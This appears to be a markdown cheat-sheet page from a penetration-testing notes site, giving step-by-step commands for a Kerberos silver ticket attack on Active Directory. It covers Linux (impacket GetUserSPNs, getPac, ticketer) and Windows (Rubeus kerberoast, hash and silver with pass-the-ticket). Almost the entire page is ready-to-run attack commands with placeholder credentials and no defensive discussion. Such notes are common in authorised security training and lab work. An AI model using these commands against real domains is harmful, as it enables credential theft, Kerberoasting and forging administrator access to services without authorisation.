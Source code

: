 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["silver ticket", "rubeus", "active directory", "ad", "domain controller", "Windows", "GetUserSPNs"]
---
```


### Silver Ticket Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get service principle name (SPN)

```console
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -request -k
```

```console
# If NTLM auth is disabled
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-host <DC> -request -k
```

#### 2. Generate NTLM

```console
iconv -f ASCII -t UTF-16LE <(printf '<PASSWORD>') | openssl dgst -md4
```

#### 3. Get domain SID

```console
sudo ntpdate -s <DC> && impacket-getPac -targetUser administrator '<DOMAIN>/<USER>:<PASSWORD>'
```

#### 4. Generate Silver Ticket

```console
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC> -spn <SPN> administrator
```

#### 5. Import ticket

```console
export KRB5CCNAME=administrator.ccache
```

#### 6. Check

```console
klist
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Get service principle name (SPN)

```console
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>' /nowrap
```

#### 2. Generate NTLM

```console
.\rubeus.exe hash /password:'<PASSWORD>'
```

#### 3. Get domain SID

#### 3a. Locally

```console
import-module activedirectory
```

```console
Get-ADDomain | fl DomainSID
```

#### 3b. Remotely

```console
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Driectory Lightweight Directory Services'
```

```console
# Bind > Bind with credentials
ldp.exe
```

```console
# Browse > Search
BaseDN: DC=<EXAMPLE>,DC=<COM>
Filter: (objectclass=User)
```

#### 4. Generate silver ticket

```console
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:<SPN> /nowrap /ptt
```

#### 5. Check

```console
klist
```

{{< /tabcontent >}}
